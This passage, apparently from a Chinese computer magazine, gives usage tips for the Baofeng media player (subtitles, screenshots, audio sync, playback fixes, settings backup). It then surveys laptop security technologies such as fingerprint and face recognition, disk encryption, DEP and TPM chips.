只要确保字幕文件和视频文件的文件名是一致的并且在同一个目录中，暴风影音就会自动加载字幕，这种方法适用于 DVDRIP、HDTVRIP 等格式的 avi 影片。另外要注意，如果是图形格式的字幕文件，请注意 idx 文件和 sub 文件缺一不可，否则无法自动加载字幕。

### 2. 手动加载

默认情况下，在暴风影音中是无法给 Realmedia 格式的影片（即 RM 和 RMVB 文件）加载字幕的，必须进行相应的设置。

- （1）打开暴风影音，选择“播放”→“选项”菜单，打开“选项”窗口，在左侧选择“回放”下的“输出”。
- （2）在右侧的窗口的“DirectShow 视频”中选择“WMR7（无转换）”，如图 1 所示。
- （3）重启暴风影音（注意，要重启暴风影音才能加载字幕），先打开要加载字幕的影片，再使用“文件”→“加载字幕”命令，打开要加载的字幕文件即可。
- （4）如果你的系统为 Windows XP，并安装了 DirectX 9 以上版本，而你的电脑配置又不错的话，在上面的设置中可以选择“VMR9 (无转换)”，可以获得更高级的功能和更好的播放质量。
- （5）字幕文件可以到网上下载，推荐射手网 http://shooter.cn 和 TLF原创字幕站 http://tlfsubs.eastgame.net。

## 二、看完电影，想关就关

很多人都喜欢躺在床上欣赏大片，看完影片后自然懒得去关闭电脑了。暴风影音是设置关机的高手，它不但可以设置“关机”，而且还可根据需要选“关闭”、“待机”、“休眠”、“注销”四个选项。

打开暴风影音，选择“播放”菜单，在下拉菜单中指向“播放完成后”→“关机”。

这样一来，我们跟在电影院一样，在看完大片后，一走了之，让暴风影音来清扫战场。

## 三、视频截图，轻松写意

我们在欣赏高质量影片时，经常会遇到非常精美的画面，如果想要将它保存下来，我们一般都会想到使用 SnagIT 之类的抓图软件。其实不用这么麻烦，我们完全可以在暴风影音中轻松解决这个问题。

### 1. 播放时截取画面

播放视频，到待截取画面处鼠标单击播放画面或按空格键，暂停播放，选择“文件→保存图像”将其保存为 bmp 或 jpg 格式即可。这下可以尽情抓取你喜欢的美女了！

### 2. 精确截取视频画面帧

如果你想更精确地截图，可以先将播放进度调整到要截图的视频附近区域，然后选择“播放”→“ 逐帧步进”命令或按空格键使播放画面暂停，再连续按键盘的“→”键使播放画面逐帧步进，等到待截取的视频画面帧精确出现时，再将画面保存即可。

### 3. 不影响播放截取画面

除此之外，我们还可以在不影响影片播放的情况下，更方便地实现截取精美画面：只要在影片播放到精彩之处时，按下“F5”键，图片就默认保存在“我的文档”→“图片收藏”中了。

### 4. 改变保存截图文件的路径

在暴风影音 2 中，还可以改变截图的保存路径，只要使用“播放”→“选项”命令打开“选项”对话框，在“其他”选项中，手动改变保存截图文件的路径即可。

不过需要提醒读者的是，这种方法并非对所有格式的视频有效，如果程序提示“保存图像失败……”则表明该方法对当前视频无效。

## 四、双语电影和影片声音太小问题

### 1. 双语电影的声道切换

有一些 RM/RMVB 影片是使用双语压制的，比如国语和粤语，播放时两种声音交杂在一起，完全没有办法观看，很多人不知道如何去切换声道。其实操作方法很简单：

- （1）在播放影片时，打开暴风影音的“选项”窗口，在左侧选择“滤镜”下的“音频切换器”。
- （2）在右侧的窗口中选中“启用自定义声道映射”，在下面有两个声道，按住 Shift 键单击其中一个声道，这样可以切换声道并使改动立即生效。边试听边设置，直到效果满意单击“确定”按钮即可（见图2）。
- （3）如果你尝试了所有方法都不行，那就只要使用最后一招了：打开“音量控制”，拉动“波形”处的滑竿来调节左右声道。

### 2. 影片声音太小

很多朋友有过这样的经历：播放某部影片时，尽管已经将音箱和系统的音量都设置为最大了，但声音还是很小。这时也可以使用下面的方法来解决：

选中“启用自定义声道映射”，然后在下面框中将“前左”至“上后右”的所有选框都全部选中1和2通道，单击“应用”按钮后，你就会发觉音量明显增大了，而且音质变得清脆而且富有立体感。灵活运用这种方法，还能打造最完美的电影音效哦，如图2所示。

注意：一些电影在播放时可能会与这样的设置有冲突，从而造成无法正常播放，此时只要恢复默认设置即可。

## 五、RM/RMVB 文件播放不正常

暴风影音播放 RM/RMVB 文件不正常，表现为：不能播放，播放时没有图像，无法通过暂停、停止按钮来控制播放等。出现这类问题，排除视频文件本身的因素，可能是暴风影音所支持的 Real 格式模式设置造成的。

运行暴风影音，选择“查看”→“选项”命令打开“选项”窗口，然后在窗口左边单击“播放器”下的“格式”选项，在窗口右边的“扩展名”列表中找到“Real 媒体文件”，将“实时媒体流协议句柄”设置改为“DirectShow”，最后单击“确定”按钮即可，如图 3 所示。

> 小提示：要使用暴风影音在线播放 RM/RMVB 流媒体文件，需要将“DirectShow”改回“RealMedia”。

## 六、MP4无法播放的问题

有时会遇到暴风影音无法播放某些 MP4 文件的情况，这是因为这些 MP4 文件是采用 QuickTime Pro 制作的。默认情况下，标准的 MP4 文件采用了 DirectShow 渲染，而采用 QuickTime Pro 制作的 MP4 文件采用了 QuickTime 渲染。只要对暴风影音稍做设置即可解决问题：

- （1）使用“开始”菜单→“暴风影音”→“暴风影音综合设置”命令，打开“暴风影音综合设置程序”向导窗口，选中“视频解码选项”，然后单击“下一步”按钮，如图 4 所示。
- （2）在“视频解码设置选项”窗口中，将“MP4 渲染方式”改为“QuickTime”，最后单击“确定”按钮即可。

> 小提示：在以后观看标准 MP4 文件的时候，别忘了将 MP4 渲染方式改回“DirectShow”。

## 七、声音和画面不同步

有时候暴风影音播放视频的时候声音和画面会不同步，可能是电脑性能不好，或解码器存在 Bug 引起的，但绝大多数情况下都是多媒体文件本身存在问题。有了暴风影音，这个问题就可以迎刃而解。

### 1. 调整延迟时间

- （1）首先估算声音与图像之间相差的秒数，右击暴风影音的播放画面，选择“音频”→“选项”菜单。
- （2）打开“选项”窗口并自动定位到“音频切换器”，勾选“声音延迟时间”，再输入算好的时间（以毫秒为单位），负值使声音提前播放，正值使声音滞后播放。
- （3）单击“应用”按钮，看看声音和画面是否已经同步，反复调整直至解决问题，最后单击“确定”按钮即可，如图 5 所示。
- （4）可以使用快捷键来操作：只需按数字键盘的“+”或“-”即可调整音频播放的滞后或提前（每按一次的递变是 10 毫秒），不过如果是 Real 媒体需要设置渲染模式为 DirectShow。

### 2. 改变程序设置

还有一种情况就是该媒体文件使用了 FFDShow 作为解码器（或后处理程序），同时电脑的软硬件环境对 YV12 输出的支持不好，而暴风影音中的 ffdshow 模式即是采用高效的 YV12 输出！这种情况只需关闭 ffdshow 的 YV12 输出选项即可：

打开“暴风影音综合设置程序”，选中“视频解码选项”后单击“下一步”按钮，然后在“FFDShow 特殊设置”下取消对“启用 YV12 高效输出”选项的勾选即可。

## 八、字幕与电影不同步问题

### 1. 使用配套的字幕

很多影音爱好者都遇到过播放的电影与字幕不同步的情况，如果是内嵌字幕的话就没有办法了；如果是加载的字幕，字幕不同步通常是由于字幕的版本与电影不配套造成的，可以先去字幕网站寻找与之相配套的字幕文件。

### 2. 用暴风影音进行更正

如果无法找到配套的字幕，还可以用暴风影音来轻松进行更正！方法如下：

- （1）首先下载字幕，把字幕和电影放在一个文件夹中，确保字幕和电影文件的文件名相同。
- （2）用暴风影音播放电影的时候，在任务栏托盘区域会出现一个绿色箭头 (DirectVobSub)，在上面单击右键，选择“DirectVobSub (auto-loading Version)”菜单，打开 "DirectVobSub (auto-loading Version) 属性" 对话框。
- （3）单击“同步”（有的暴风影音版本这里显示为“计时”）选项卡，在“延迟”下输入延迟时间（以毫秒为单位），如果字幕滞后，则输入正数；如果字幕超前，则输入一个负数，经过反复修正直至字幕与电影同步即可，如图 6 所示。

## 九、让暴风影音也能随意调节亮度

暴风影音没有亮度调节菜单，这让很多人强烈不满。遇到画面昏暗的影片时，用户自然会想到通过调节显卡的设置来提高亮度，但这样不仅仅会让暴风影音播放的影片画面变亮，整个显示器画面也都会变得很亮，非常刺眼。所以看完影片以后还要重新调回来，显然这种方法的效果并不理想。还有没有更好的方法呢？当然有，下面就来教你完美解决这一难题。

- （1）打开暴风影音，选择“查看”→“选项”菜单打开“选项”窗口，在窗口左侧单击“输出”。
- （2）在窗口右侧的“DirectShow 视频”下根据需要进行选择，现在大部分用户的电脑都是 Windows XP 系统，安装了 DirectX 9，电脑配置也不错，这时可以选择“VMR9（窗口化）”或“VMR9（无转换）”，接着分别将“RealMedia 视频”及“QuickTime 视频”设置为“DirectX 9”，最后单击“确定”按钮，如图 7 所示。
**小提示：** 如果你需要更快的速度或者电脑配置不够高，请选择“VMR7（窗口化）”或“VMR7（无转换）”，并将“RealMedia 视频”及“QuickTime 视频”设置为“DirectX 7”。
- （3）选择“开始”菜单→“程序”→“暴风影音”→“暴风影音综合设置”命令，在打开的“暴风影音综合设置”窗口中单击“FFDShow 视频设置”按钮。
- （4）在打开的“FFDShow 视频解码器设置”窗口的左侧单击“解码选项”，然后在窗口右侧的“格式”中找到“Raw Video”（在有的暴风影音版本中，此处显示为“RAW 视频”），单击其“解码器”选项。
- （5）在下拉菜单中选择“全部可支持的”，然后单击“应用”按钮。
- （6）在窗口左侧切单击“画面属性”标签，然后在右侧勾选“处理全部视频”，接着拖动“亮度增益”滑块即可调节亮度，如要恢复默认的亮度，单击“复位”按钮即可。最后别忘了单击“确定”按钮。
- （7）经过以上设置后，再用暴风影音播放视频文件时，FFDShow 会在系统托盘内生成图标，只需要双击该图标就可以快速打开“FFDShow 视频解码器设置”窗口，可以随时进行亮度调节了。

## 十、看电影也能“断点续传”

如今一部 DVD 电影影片大都需要数个小时才能看完，有时候一部电影没看完，下次继续观看时，还需要重新打开影片，并拖动进度条寻找上次的播放位置。其实，暴风影音还有更方便的方法，它提供了一个类似于下载软件的“断点续传”的功能。

在用暴风影音播放影片时，使用“收藏”→“添加到收藏夹”命令，打开“添加收藏”对话框，输入一个便于识别的名字，再勾选“记住位置”选项（默认即为选中），单击“确定”按钮。

下次播放时，只需要启动暴风影音，并选择“收藏”菜单中你设置快捷方式名称，就会自动打开这部影片，并从上次的进度继续播放了（如果播放的是 VCD 或 DVD，别忘了插入光盘），是不是非常方便？

使用“收藏”→“管理收藏夹”命令可以管理你添加的收藏项，包括删除、重命名、移动其顺序等。

## 十一、锁定播放画面比例

有时候我们会一边看电影一边干点别的事情，例如一边看电影一边上网，一边看电影一边写工作总结等。做不同的事情需要设置视频画面不同的显示大小，其实我们可以将这些大小设置方案保存起来，方便随时切换。

- （1）选择“查看”→“全景和扫描”→“编辑”菜单。
- （2）单击“新建”按钮，设置“位置”和“缩放”栏的参数，其中“位置”栏的数字在 0.0 ~ 1.0 之间，“缩小”栏的数字设置在 0.2 ~ 3.0 之间。
- （3）为该方案起个名字（如“上网同时看电影”），完毕后单击“保存”按钮。
- （4）当我们需要播放窗口调节大小时，只需选择“查看”→“全景和扫描”→“上网同时看电影”即可。
- （5）如果你想恢复窗口的大小只需选择“查看”→“全景和扫描”→“复位”或者直接按下数字键 5。

## 十二、在暴风影音中实现5.1音效

暴风影音默认使用两声道立体声。如果你有一个 5.1 声卡和 5.1 音箱，或者利用光纤线实现 5.1 输出，那可别浪费了如此好的效果。

- （1）使用“开始”菜单→“程序”→“暴风影音”→“暴风影音综合设置程序”菜单命令。
- （2）在打开的“任务选项”窗口中选中“音频控制选项”后单击“下一步”。
- （3）选中“5.1声道环绕”一项并单击“确定”按钮完成设置。

这样用暴风影音欣赏电影时就可享受 5.1 音效的震撼了。需要注意的是，电影的格式必须是 AC5.1 或者 DTS 的，也就是说电影本身要支持5.1声道输出。

## 十三、让Real软件不和暴风影音“打架”

有一些用户遇到了 RealPlayer 和暴风影音“打架”的情况——Real 系列软件的系统独占性极强，若系统中同时进行官方和第三方 RealMedia 解码器的安装，会因为互相对注册表路径的重新定义和修改导致 RealPlayer 播放器使用不正常。

暴风影音针对这个问题进行了改进，新版的暴风影音无论是安装还是卸载都会首先检测系统中是否有官方版本的 RealPlayer、如果有的话是什么版本、是安装于暴风影音之前还是之后，然后根据实际情况做出正确的选择，不会对系统中的 RealPlayer 产生任何影响，这里的 RealPlayer 指的是运行于 Windows 平台的 RealPlayer 8、10、10.5 和 RealOne Player V1、V2。

但是需要注意的是，如在安装暴风影音（含 Real 组件）后又安装了 RealOne Player，由于 RealOne Player 在安装程序上面的不完善，将不会替换暴风影音中版本更高的一些 dll 文件，但又不能正确调用，所以 RealOne Player 将无法使用。解决方法如下：如果你想使用 RealPlayer，要么不要安装暴风影音的 Real 组件，要么使用足够新的 RealPlayer 版本（RealPlayer 10 以上）。

另外，如在安装暴风影音（含 Real 组件）后又安装了 RealPlayer 10，由于 RealPlayer 10 在安装程序上面的不完善，将可能导致偶尔出现一个错误对话框（不影响使用），如果你启用了暴风影音兼容性检测与调整程序，这个问题将在下一次启动时被解决；如果你已经禁用了暴风影音兼容性检测与调整程序，则需要通过“暴风影音综合设置程序”单击执行一次“恢复默认安装 / 修复”，请放心，这不会对后安装的 RealPlayer 10 产生任何影响——除了修复错误。

上面讲解了暴风影音的各种设置方法，对电脑操作不熟的用户“一不小心”就可能进行了错误的设置，导致播放出现问题，此时可以启动“暴风影音综合设置程序”，单击“恢复默认安装 / 修复”按钮，确认后稍等片刻，暴风影音即可恢复默认设置，如图8所示，此后建议你重新设置一下暴风影音的文件关联。

## 十四、用快捷键，想用就用

任何播放软件都离不开简便易用的快捷键，当然暴风影音也不例外，其拥有超强的快捷键设置功能。很多用户都不知道暴风影音的快捷键是哪些，下面就告诉你查看和更改暴风影音快捷键的方法：

打开暴风影音，选择“查看”→“选项”，打开“选项”对话框，在对话框左侧单击“快捷键”，在右面窗口可以看到各种播放操作的快捷键，如果想要更改，选中想更改处，并再次单击即可进行设置。

## 十五、看电视剧的完美方案

有朋友问：从网上下载的电视剧，一般都有一段序幕、片头或广告等，比较浪费时间，能不能直接跳过？每次看完一集后，又要打开另一集，比较麻烦，能不能连续欣赏这些电视剧呢？

使用暴风影音是完全可以实现的，本文将给你提供两种欣赏电视剧的完美方案。

### 1. 方法一

- （1）用暴风影音打开一集电视剧，使用“查看”→“状态栏”命令，记住电视剧的序幕等占用了多少时间。
- （2）使用“查看”→“播放列表”命令，使暴风影音显示播放列表，再将要观看的电视剧都拖动到暴风影音的播放列表中，调整其播放次序为正常次序，然后关闭播放列表，使它不影响我们欣赏电视剧。
- （3）选择“查看”→“选项”，切换到“播放器”标签，勾选“使用全屏方式打开文件”并单击“确定”按钮。这样设置后，暴风影音将会自动地以全屏方式轮流播放各集电视剧。
- （4）在每一集电视剧开始的时候，按 Ctrl+G 键打开“转到”窗口，在“时间”栏中填写电视剧序幕等显示需要的时间后，按回车键或者单击“转到”按钮即可直接跳过它们，直接欣赏电视剧。

### 2. 方法二

- （1）选择“查看”→“选项”菜单打开“选项”对话框，单击左边的“其他”标签。
- （2）在“步进间距（小,中,大;毫秒）”的“中”栏将连续剧的片头时间（这里以毫秒为单位，1 毫秒 =1/1000 秒，如序幕是1分23秒则填入83000）填写进去。
- （3）以后在电视剧开始播放的时候只需要按一下 Ctrl+右光标键“→”就可以跳过片头直接欣赏电视剧了。

## 十六、使用暴风影音收看在线视频

如果在Windows系统中卸载了Windows Media Player，又没有安装RealPlayer，是不是就不能在线播放视频、音频节目了呢？其实只要安装了暴风影音就行了。

-   1. 运行“暴风影音综合设置程序”，在任务中选中“文件关联设置”和“RealMedia 设置”，单击“下一步”，
-   2. 在“关联MPC到”中选择“自定义”，然后在下方列表中选中“流媒体协议”，此时会弹出一个提示对话框，不要理它，确认后你的暴风影音就可以观看在线视频了。
-   3. 单击“下一步”按钮，进入“RealMedia设置选项”，这里可对在线播放进行优化设置。延长缓冲时间能保证流媒体的流畅播放，将“正常带宽”和“最大带宽”下拉菜单中选择“局域网（10Mbps及以上）”，将“缓冲时间（秒）”右侧的滑块拖动更改为30或更大数值，最后单击“确定”按钮即可。

## 十七、在暴风影音中玩双字幕

如果你希望在看电影的同时也顺便学学英文，那就用双字幕功能吧，利用暴风影音实现影片的双字幕，方法并不复杂，下面以一部DVDrip.avi影片为例来说明方法。

### 1. 添加双字幕

-   1. 首先将Windows的显示“颜色质量”设置为“最高（32位）”。
-   2. 把影片和中文字幕文件改为同名并放到同一文件夹内，用暴风影音播放时即可自动加载中文字幕。
-   3. 使用“查看”→“选项”打开暴风影音的“选项”窗口，定位到“回放”→“输出”选项，在DirectShow中选择“VMR9(无转换)”。如果你只安装了低版本的DirectX，而且操作系统是Windows XP及以上版本，此处应选择“VMR7(无转换)”，然后确定。
-   4. 重启暴风影音并重新播放影片，使用“文件”→“载入字幕”命令，选择需要载入的英文字幕，此时即可实现中、英文双字幕。

### 2. 调整重叠字幕

-   1. 在暴风影音中设置方法如下：在“选项”窗口中定位到“字幕”选项，在右边选中“覆盖位置”选项，设定字幕的位置并单击“确定”按钮即可。
-   2. 在DirectVobSub中的设置方法如下：影片播放时，在任务栏托盘区域会出现一个绿色箭头（DirectVobSub），在上面单击右键，选择“DirectVobSub（auto-loading Version）”菜单，打开“DirectVobSub（auto-loading Version）属性”对话框，然后单击“主控”选项卡，选中“覆盖位置”选项，并调节字幕位置。

## 十八、看电影也玩老板键，暴风影音2的另类暂停键

在暴风影音中，如果想让播放的影片暂停的话，只要用鼠标在播放窗口单击一下，或者按空格键就行了。而如果安装了暴风影音2的话，我们还可以启用老板键，不再担心观看影片时被老板发现。

打开暴风影音2，选择“查看”→“选项”菜单，在打开的“选项”对话框中单击左边的“老板键”选项，在右边选中“启用老板键”和“老板键下暂停播放”选项，最后单击“确定”按钮。以后，当你利用工作闲暇时间观看影片并听见背后传来老板的脚步声时，不用慌张，直接按“Alt+S”组合键，不但隐藏起来暴风影音，桌面还干干净净，连任务栏中都没有它的踪影，而且，播放的影片还可自动暂停。再次按“Alt+S”快捷键，即可调出暴风影音2，继续欣赏你的大片吧！

## 十九、清除播放记录

暴风影音播放过的文件都会自动记录在“打开文件”对话框的下拉菜单中，以方便用户下次快速打开，这样虽然方便，但也暴露了你的个人隐私。如果你想清除这些文件记录，在“暴风影音综合设置”对话框中，单击“清除播放历史”按钮，再单击“确定”按钮即可清除记录。

## 二十、备份暴风影音的设置

每次重装系统后我们不仅要重新安装一遍暴风影音，而且其中的设置也随之一同丢失了。如何解决这个麻烦事呢？当用户根据自己的需要设置好暴风影音的各项参数后，建议将这些设置保存下来。这样当重装软件后，无须再一个个进行设置，即可快速应用自己的个人设置。

从“开始”菜单运行“暴风影音综合设置程序”，勾选“个人设置备份”选框，单击“下一步”按钮，选择需要备份的项目，再单击“浏览”按钮指定备份目录或使用默认目录C:\MPCBAK\，最后“确定”按钮可生成一个“.reg”格式的注册表文件。以后在重装暴风影音后，只须双击该文件将其导入注册表，即可快速应用自己的个人设置了。

## 二十一、结语

暴风影音功能强大，设置复杂，是名副其实的“万能播放器”。本文总结了暴风影音的各种实用技巧，并对常见问题及其解决方法进行了汇总，可以帮助读者解决日常操作中遇到的一些问题，更加合理地使用暴风影音播放器，更好地发挥暴风影音的强大性能。

## 笔记本信息安全 —— 笔记本安全技术解决方案

文 / 阿亮

近年来，移动性超强的笔记本电脑的安全问题受到了各界尤其是商业用户的高度关注。现在，越来越多的商业用户、科研工作者以及看重个人隐私的学生用户甚至普通用户都开始对带有安全功能的笔记本电脑展现出浓厚的兴趣。客观而言，笔记本电脑的安全技术已经发展得比较成熟，全方位的解决方案能够帮助我们更安心地使用，彻底远离信息泄密与个人隐私危机。此外，我们个人用户在使用网上证券交易软件以及网上银行时也必须小心谨慎，并且应该掌握一些有用的基本防护手段，这种软硬件结合的方法才是最为有效的笔记本安全技术解决方案。

## 一、身份安全：第一道有效屏障

以往我们对于笔记本的身份验证功能的概念还仅仅停留于简单的CMOS加密，但是这种技术的实际应用价值非常低，完全可以轻松破解。从理论上来说，任何基于密码方式的身份验证技术都不安全，毕竟穷举破解永远是巨大的威胁。此外，无论厂商如何“科普”教育，用户的不良使用习惯总是会令密码口令显得非常脆弱。既然密码身份验证行不通，那么就得采取新的技术手段。

### 1. 最佳安全体验：指纹识别技术

近期指纹识别功能成了许多笔记本产品的卖点之一。在IBM、东芝以及富士通最近发布的多款新品中，指纹识别系统都成了标准配置。指纹识别在提高系统安全性方面的优势是非常明显的。首先，每个人的指纹是独一无二的，世界上任何两人都不存在相同的手指指纹，这也排除了利用别人相同的指纹来破除指纹密码的可能性。其次，一般说来每个人的指纹是相当固定的，不会随着人的年龄的增长或身体健康程度的变化而变化。此外，如果要增加可靠性，只需登记更多的指纹、鉴别更多的手指，最多可以多达十个，而每个指纹都是独一无二的，这样就可以方便地利用多个指纹构成多重口令，提高系统的安全性。

当然，从理论上来说，指纹识别技术也并非是完美的。由于非军事应用级别的指纹识别只记录指纹纹路的情况而不记录指纹深度和指纹温度，因此一个简单的指纹印模就能够帮助窃贼达到他们的目的。而且，如果你不小心把用于认证的手指割破了，或者很寒冷的情况下，指纹扫描就很有可能不能够识别你，从而把你这个合法的用户也阻挡在系统之外（见图1）。

### 2. 面像识别技术

面像识别技术包含面像检测、面像跟踪与面像比对等。面像检测是指在动态的场景与复杂的背景中判断是否存在面像并分离出面像，面像跟踪指对被检测到的面像进行动态目标跟踪，面像比对则是对被检测到的面像进行身份确认或在面像库中进行目标搜索。面像识别技术能够充分满足用户安全方面的需求，无论是用户登录、文件保密、Email/BBS密码管理，还是待机保护等常规应用，通过这项技术都能使一直困扰用户的安全问题得到彻底解决，而且其易用性也十分突出，让用户无需记忆任何繁琐的密码就能确保安全。

尽管面像识别技术的可靠性不如指纹识别技术那么高，但是这同样也令人放心，因为通过自动定位待检人脸特征值并且寻找多个脸部基准点扫描；其误识别概率低于百分之一。此外，随着内置摄像头在笔记本中成为一种潮流，面像识别技术的成本也可以大幅度降低（见图2）。

#### 小贴士：如何确保密码强度

假如您的笔记本只能通过密码进行身份识别，那么建议在设置密码时注意一些技巧。我们建议密码至少有8位，而且其中应该包含一个符号，比如$、%、！或者？。很多用户为了图方便，喜欢将自己的生日作为密码，殊不知这样的密码利用穷举法可以很快地破解。同样，如果采用一些英文单词作为密码，那么其牢度也非常有限，随便找一个密码词典就可以击破。为此，建议大家设密码一定要英文字母结合数字，并且必须是没有实际意义的字符串，这样就不会出现被穷举法快速击破的尴尬。

## 二、数据安全

尽管身份安全技术被广大用户所充分认可，但是对于那些非常关心数据保密性的用户而言，如何确保存储介质内的资料安全才是关键。如果仅有身份安全识别技术，那么此时所阻挡的仅仅是不良窥视者进入操作系统，无法解决拆卸硬盘后的“数据洗劫”。因此，通过完善的加密技术，将硬盘上的重要数据进行加密保护，这才是最稳妥的解决方案。

### 1. 硬盘厂商解决方案：全盘片加密技术

尽管加密看似是笔记本厂商的使命，但是硬盘厂商也没有闲着。如日中天的希捷推出了全盘片加密技术，并且应用在 Momentus5400FDE 这款 2.5 英寸的笔记本硬盘上，最大容量为 120GB。全盘片加密技术的原理非常简单，就是在硬盘上采用集成的硬件加密芯片，自动对写入硬盘的所有用户数据进行加密，并在读取时解密。加密和解密的速度与接口的传输速度完全相同，不会导致硬盘性能下降。支持该功能的固件还允许开启和关闭加密功能，改变主密码和用户密码，或将密钥存储到另一个位置。加密芯片独立于操作系统，对操作系统透明，而且利用支持管理功能，可以恢复丢失的密码。

全盘片加密技术是硬件加密技术，它的安全性比普通 BIOS 密码和系统密码高得多，在使用的时候也方便得多，不用频繁地输入密码。采用这种技术的硬盘即使遗失，由于明文密钥不在硬盘上，也不必担心里面的数据被人利用。虽然采用全盘片加密技术的硬盘售价比普通硬盘高，但它出色的保密性能将会受到军方和商务用户的青睐（见图 3）。

### 2. 便捷的硬件加密：智能卡（Smart Card）

通过软件进行加密是很容易想到的一个数据安全解决思路，但是软件的可复制性令其安全强度大打折扣。而如果让硬件和软件相结合，那岂不是更好的解决方案？为此，智能卡（Smart Card）很快诞生并且普及开来。在进行了相应软件的安装后，用户可对单个文件、整个目录，乃至整个硬盘加密。用户使用时只要插入智能卡，笔记本电脑中的数据就完全对用户开放；如没有智能卡则加密数据就无法打开，即使将硬盘拆下，装到别的笔记本电脑上也无济于事。有些智能卡，还可在笔记本电脑使用的过程中拔除，此时的笔记本电脑则会自动进入屏幕保护状态，再插入智能卡则又会完全恢复（见图4）。

## 三、来自移动CPU的硬件加密

数据安全问题显然已经牵动所有厂商的神经，拥有强大处理能力的 CPU 自然是非常理想的选择之一。现在，Intel、AMD 和 VIA 这全球三大处理器厂商都不约而同地推出支持 DEP 功能的产品，从防病毒的角度来确保数据安全，为用户扫除一个不小的隐患。此外，VIA 还在协处理器负责加密解密运算方面迈出重大的一步。

### 1. 防毒新思维：DEP 数据执行保护技术

在已经完全普及 Windows XP Service Pack2 和后续的操作系统中，微软带来了具有里程碑意义的 Data Execution Prevention 数据执行保护技术（简称 DEP）。事实上，DEP 技术并非由微软开发，而是内嵌于 CPU 中，只是这项功能的执行必须得到操作系统的支持，就好比 AMD 的 64 位计算功能必须在 64 位操作系统下才能发挥作用一样。在最近几年中，病毒与蠕虫之所以会如此猖獗，一方面是拜系统本身的漏洞所赐，另一方面则是杀毒 / 防木马软件本身技术的滞后性。目前摆在业界面前的不仅仅是更新病毒库代码，这种被动的方式不可能取得最终的胜利。痛定思痛，从源头上阻截病毒与蠕虫才是关键，而这一艰巨的任务自然得交给智能化程度最高的 CPU。

众所周知，病毒也是一种程序，只不过是特殊的程序，因此在执行过程中也离不开内存。DEP 技术与防火墙或者防病毒程序根本的区别在于从内存地址上加以阻截，而不是防止危险程序或者危害代码的运行。从目前的病毒发展趋势来看，攻击常用的内存地址是一条必由之路，而这恰恰是反病毒技术的突破点。支持 DEP 技术的 CPU 将某些常用内存位置标记为“不可执行”，如有任何一个程序尝试从不可执行的位置运行代码，同样支持 DEP 技术的操作系统将会自动关闭该程序，如此便彻底扼杀了所有危险程序与代码，而不是疲于应付地更新病毒库（见图 5）。

在具体的实现过程中，AMD、Intel、VIA 等 CPU 厂商所采用的 DEP 技术各不相同，但是作为核心技术的 “Non-executable” 标记却是相同的。Mobile Athlon 64、炫龙 64 以及 Mobile Sempron 都具有该功能，而 Intel 也在迅驰 2 之后融入这项功能。通过 CPU 内部的 “Non-executable” 单元，内存中没有明确包含可执行代码的数据都标记为不可执行。无论什么程序，只要非法跨越，那么立即会遭到毁灭性的打击——瞬间中断该程序的进程。

### 2. 协处理器显威力：VIA C7-M

在执行加密解密操作中，用户都担心因此而影响整机性能，而且软件处理的速度也是一个恼人的问题。现在 VIA 推出了 C7-M 处理器，其 PadLock 技术通过内置的协处理器来专门执行加密解密功能。根据 VIA 的技术指标介绍，PadLock 的原理是其核心为一组高阶的随机数值产生器（Random Number Generator），利用芯片上无规律的电子杂讯，计算出对应资料本身的随机数值作为加密编码之用；而产品研发人员则可由新的 X86 指令，直接由硬件取得这些随机数值，无须通过软件的驱动程序。这种纯硬件的设计比过去软硬件组合的资料加密架构更有效率、更可靠。另外，PadLock 也支持多种运行模式，提供由每秒钟 750K 位至 6 百万位不等的各种效能。以 AES 加密算法为例，此时最快可以达到 25 Gb/s 的速度，因此用户丝毫不会因为重视安全性而令产品性能得到损失。

毫无疑问，只有真正从硬件上进行加密才是真正令人放心的解决方案，而 VIA 则将这项功能真正融入到 CPU 的内部设计之中。所有采用 C7-M 的笔记本都将拥有极高的安全性，而且并不会增加笔记本厂商的成本，同时也给用户提供充裕的产品选择空间。出色的 PadLock 引擎也离不开优秀软件的支持。在微软操作系统还没有直接支持 PadLock 之前，VIA 自己推出了 StrongBox 软件，这也得以让其加密功能在第一时间得到充分发挥。StrongBox 的使用方法并不复杂，安装程序结束之后会进入向导模式，此时最多允许设置 10 个虚拟 StrongBox 驱动器。所谓虚拟 StrongBox 驱动器是指特殊的加密空间，所有需要保护的数据都可以放入其中。在没有输入密码之前，这一驱动器看起来仅仅是一个 IMG 镜像文件，而且无法打开（见图 6）。

## 四、“可信计算”时代：笔记本厂商牵手安全芯片

“可信计算” 的概念开始在世界范围内被提出是在 1999 年，主要是通过增强现有的终端体系结构的安全性来保证整个系统的安全。“可信计算” 技术的核心是称为 TPM（可信平台模块）的安全芯片。

### 1. TPM 芯片大势所趋

作为可信计算技术的核心，TPM 被业内喻为安全 PC 产业链的“信任原点”，旨在将 PC 变成一个安全可信的计算平台。在实际应用中，TPM 安全芯片被嵌入到笔记本电脑的主板之上，TPM 安全芯片的实质是一个可独立进行密钥生成、加解密的装置，内部拥有独立的处理器和存储单元，可存储密钥和敏感数据，为各种计算平台提供完整性度量、数据安全保护和身份认证服务。

号称微软有史以来最具革命性的操作系统的 Windows Vista 已经出现在我们的面前。这款新一代的操作系统微软自称具备更好的安全性，而这个安全性正是建立在 TPM 安全芯片的基础之上的。对此，我们可以大胆地推断出 TPM 将来肯定会像 USB 接口一样成为每台 PC 的标配。TPM 技术核心的功能在于对 CPU 处理的数据流进行加密，同时监测系统底层的状态。在这个基础上，可以开发出唯一身份识别、系统登录加密、文件夹加密、网络通讯加密等各个环节的安全应用。它能够生成加密的密钥，还有密钥的存储和身份的验证，可以高速进行数据加密和还原，作为呵护 BIOS 和操作系统不被修改的辅助处理器，通过 TSS 与 TPM 的结合来构建跨平台与软硬件系统的可信计算体系结构。

### 2. 两大国内品牌

目前安全笔记本电脑上所采用的安全芯片都被称为 TPM 安全芯片，TPM 的全称为 Trusted Platform Module（信任平台模块），旨在将 PC 变成一个安全可信的计算平台；另一方面，TPM 是一个国际性行业规范，它是由 TCG 组织制定的（TCG 组织由 Intel、AMD、Microsoft、IBM、惠普、SUN 等几十家巨头成员组成），目的在于建立可信任的安全计算标准）。目前已制定了 TCG TPM v1.1 和 TCG TPM v1.2 两个规范（后者兼容前者），符合 TPM 规范生产的具有一致性和通用性，也就是我们这里所说的 TPM 安全芯片。目前国内品牌安全 PC 采用的 2 种 TPM 安全芯片的联想和兆日，它们都符合 TCG TPM v1.2 规范。

